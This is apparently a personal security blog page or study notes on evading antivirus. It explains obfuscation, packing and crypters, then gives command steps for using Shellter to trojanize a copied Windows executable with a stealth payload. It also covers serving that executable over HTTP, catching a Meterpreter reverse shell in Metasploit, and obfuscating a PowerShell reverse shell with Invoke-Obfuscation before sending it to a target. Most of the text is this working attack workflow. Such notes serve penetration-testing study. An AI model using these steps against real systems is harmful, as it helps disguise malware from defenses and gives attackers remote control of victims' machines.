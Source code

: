 ```yaml
---
title: 'Obfuscation'
description: 'Evasion with Shellter, obfuscation PowerShell Code.'
pubDate: 'May 12 2023'
slug: 'trip/obfuscation'
---
```


- **_Obfuscation:_** Reorganizes code in order to make it harcer to analyze or RE.

- **_Encoding:_** Is a process involving changing data into a new format using a scheme. Enconding is a reversible process; data can be encoded to a new format and decoded to its original format.

- **_Packing:_** Generate executables with new binary structure with a smaller size and therefore provides the payload with a new signature.

- **_Crypters:_** Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub.

```bash
apt install shellter -y

# Add 32 architecture
dpkg --add-architecture i386

apt install wine32

# Its gonna replace origin app thats why we create new one
# Create a copy of viewwer windows app

cd /usr/share/windows-resources/shellter/

wine shellter.exe
# select 1
# stealth mode? y
# select payload 5
# select port, host

# listening a server on pwd of app
python3 -m http.server 80

# METASPLOIT
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set PORT

# EXECUTE app on windows and get a reverse shell.
```

***PowerShell Code Obfuscation.***

```bash
# PayloadAllTheThings

git clone https://github.com/danielbohannon/Invoke-Obfuscation.git

# Example with this file
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation

# Copy a powershell reverse-shell from payloadallthethings

SET SCRIPTPATH /home/printer/pwsh.ps1
# obfuscation all the ast nodes
AST
ALL
1
# Transfer payload to target
# and set up a listener nc
```
